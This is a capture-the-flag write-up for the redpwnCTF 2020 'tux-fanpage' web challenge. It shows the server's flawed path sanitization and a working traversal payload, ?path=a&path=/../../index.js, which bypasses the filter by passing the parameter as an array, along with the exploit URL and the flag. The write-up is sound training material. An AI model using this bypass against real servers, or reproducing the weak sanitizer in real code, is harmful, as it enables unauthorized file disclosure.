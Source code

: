 ```yaml
---
layout: post
title: "tux-fanpage"
author: "shreyas-sriram"
---
```


My friend made a fanpage for Tux; can you steal the source code for me?

Site: `tux-fanpage.2020.redpwnc.tf`

## Files
* [index.js]({{site.baseurl}}/assets/tux-fanpage/index.js)

# Solution

* The source code `index.js` sanitizes the query parameter as seen here

```
app.get('/page', (req, res) => {

    let path = req.query.path

    //Handle queryless request
    if(!path || !strip(path)){
        res.redirect('/page?path=index.html')
        return
    }

    path = strip(path)

    path = preventTraversal(path)

    res.sendFile(prepare(path), (err) => {
        if(err){
            if (! res.headersSent) {
                try {
                    res.send(strip(req.query.path) + ' not found')
                } catch {
                    res.end()
                }
            }
        }
    })
})

//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}

//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}

//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}
```

* From the source code, it can be figured out that `./public/` is prepended to the query parameter
* Using the source code and elements in the page, it can be concluded that the required source code file ` index.js ` is in the same level as that of ` /public `
* Payloads like `?path=../index.js` are being sanitized
* But notice that th sanitization code involves methods that are common to **strings** and **arrays**
* To bypass the filtering, an **array** need to be passed in the query parameters<br/>
` ?path=a&path=/../../index.js `
* The first index has to be of ` length = 1 ` to bypass the filter
* This is parsed as ` path[] = [a,/../../index.js] `
* The URL to retrieve the source code will be<br/>
` https://tux-fanpage.2020.redpwnc.tf/page?path=a&path=/../../index.js `
* Find the flag in the source code<br/>
` flag{tr4v3rsal_Tim3} `